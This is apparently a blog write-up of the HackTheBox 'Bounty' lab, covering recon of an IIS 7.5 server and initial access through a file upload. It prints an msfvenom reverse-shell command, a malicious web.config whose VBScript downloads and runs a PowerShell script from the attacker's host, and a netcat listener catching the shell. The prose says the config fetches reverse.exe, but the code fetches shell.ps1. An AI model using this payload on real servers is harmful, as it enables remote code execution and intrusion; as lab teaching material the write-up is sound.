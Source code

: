 ```yaml
---
title: "Bounty"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Bounty

![](../assets/Pasted%20image%2020250609203557.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.93
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 23:35 CEST
Nmap scan report for 10.10.10.93
Host is up (0.042s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.62 ms 10.10.14.1
2   41.92 ms 10.10.10.93

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.88 seconds
```

The only open `port` shows an image of `merlin`.

![](../assets/Pasted%20image%2020250609234035.png)

With `feroxbuster` we discover `/transfer.aspx`.

![](../assets/Pasted%20image%2020250609234456.png)

![](../assets/Pasted%20image%2020250610111729.png)

## Initial Access

I could use a double extension or null byte but can't reach the file, so searching for aspx config files, we can upload a `web.config` one with a reverse shell command.

Create a `msfvenom` reverse shell and start a Python HTTP server and a listener, then upload the `web.config`.

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=5555 -f exe -o reverse.exe
```

```shell
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.17:8000/shell.ps1')")
%>
```

Upon visiting `/uploadedfiles/web.config`, the config will get the `reverse.exe` and execute it.

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.93] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin
```

Get the flag

## Privilege Escalation

![](../assets/Pasted%20image%2020250610181107.png)

!!! bug

    ABORTED: The user has `SeImpersonatePrivilege` but nothing worked.
